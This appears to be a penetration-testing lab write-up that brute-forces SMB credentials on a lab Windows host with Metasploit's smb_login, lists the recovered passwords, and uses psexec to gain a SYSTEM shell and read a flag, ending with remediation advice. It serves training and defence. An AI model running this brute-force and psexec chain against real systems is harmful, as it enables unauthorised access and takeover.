









# Windows: SMB Server PsExec

**Classification:** Host & Network Penetration Testing / System & Host-Based Attacks<br>
**Target:** 10.2.28.253 — Windows (SMB)<br>
**Flag:** `e0da81a9cd42b261bc9b90d15f780433`

## 1. Executive Summary

The target exposes SMB. We brute-force credentials with the `smb_login` module (recovering
four accounts, including Administrator), then use `psexec` with the admin password to execute
a payload and obtain a `NT AUTHORITY\SYSTEM` Meterpreter session. The flag is in `C:\`.

## 2. Recon

```bash
ping -c 4 10.2.28.253
nmap -sV 10.2.28.253
```





## 3. SMB Credential Brute-Force

```bash
msfconsole -q
use auxiliary/scanner/smb/smb_login
set RHOSTS 10.2.28.253
set RPORT 445
set VERBOSE true
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run
```







Four valid credential pairs (one Administrator):

```
sysadmin:samantha | demo:victoria | auditor:elizabeth | administrator:qwertyuiop
```



## 4. Exploitation (psexec → SYSTEM)

```bash
use exploit/windows/smb/psexec
set RHOSTS 10.2.28.253
set SMBUser administrator
set SMBPass qwertyuiop
exploit
```





## 5. Capturing the Flag

```bash
cd C:\
dir
cat flag.txt
# e0da81a9cd42b261bc9b90d15f780433
```



## 6. Remediation Recommendations

1. **Enforce strong passwords & lockout** — all four accounts fell to small wordlists.
2. **Restrict SMB admin access** (`C$`/service creation) and apply least privilege; use LAPS
   for unique local admin passwords.
3. **Require SMB signing** and disable SMBv1.
4. **Monitor** for `psexec`-style service creation and failed SMB logon spikes.
